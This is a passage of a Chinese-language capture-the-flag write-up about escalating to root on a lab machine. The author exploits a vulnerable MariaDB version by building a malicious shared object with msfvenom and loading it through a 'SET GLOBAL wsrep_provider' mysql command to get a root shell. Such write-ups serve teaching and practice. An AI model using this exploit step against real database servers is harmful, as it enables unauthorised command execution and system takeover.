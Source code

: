 但是我不能破解任何哈希:(

是时候向前看了。

# 壳作为根

我回去再次列举系统，但找不到任何有用的东西。我决定跳回 SQL 登录，我想到的一件事是检查数据库的版本，看看它是否有漏洞。

![](img/9ef7d69f190cb1ce71fef0abb9080981.png)

MariaDB 版本`10.3.25-MariaDB-0ubuntu0.20.04.1`

此版本的 MariaDB 易受操作系统命令注入漏洞的攻击。我在这里发现了一个漏洞[https://packets storm security . com/files/162177/Maria db-10.2-Command-execution . html](https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html)

针对此漏洞，我们需要创建一个恶意的共享对象文件(`.so`)文件。我们将使用 msfvenom 来设计我们的漏洞。步骤如下所示:

![](img/3eaaf8a0974fc32b69e8fdbbd823e914.png)

将恶意的`test.so`文件转移到 shibboleth 机器上。在本地机器上设置一个监听器并登录到 mysql:

```
mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/dev/shm/test.so";'
```

![](img/ad880956fcc9d774390256b2f69fcdc1.png)

